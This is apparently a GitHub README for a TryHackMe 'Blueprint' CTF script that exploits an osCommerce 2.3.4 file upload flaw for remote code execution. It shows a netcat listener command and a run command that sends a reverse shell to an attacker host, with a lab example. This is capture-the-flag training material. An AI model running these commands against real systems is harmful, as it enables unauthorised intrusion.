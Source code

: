 ## About:
* **Platform**&nbsp;&nbsp;&nbsp;: TryHackMe
* **Challenge**&nbsp;: Blueprint
* **Difficulty**&nbsp;&nbsp;: Easy
* **Link**&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

## Description:
This script exploits a **File Upload** vulnerability in **osCommerce version 2.3.4**, which can lead to **Remote Code Execution** allowing the adversary to execute OS commands remotely.<br/>

## Reference:
[+] [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

## Usage:
```bash
# Start a netcat listener on port 'LPORT':
$ nc -nlvp LPORT
# Run the script: 
$ python3 osCommerce-rce.py RHOST RPORT TARGETURI LHOST LPORT
```

## Example:
```bash
$ nc -nlvp 8888
$ python3 osCommerce-rce.py blueprint.thm 8080 /oscommerce-2.3.4/ 10.8.16.233 8888
```
![2023-09-29 00_26_51-KaliLinux - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/e0989126-b2a7-4c33-83a6-d2ca03ef9d1f)
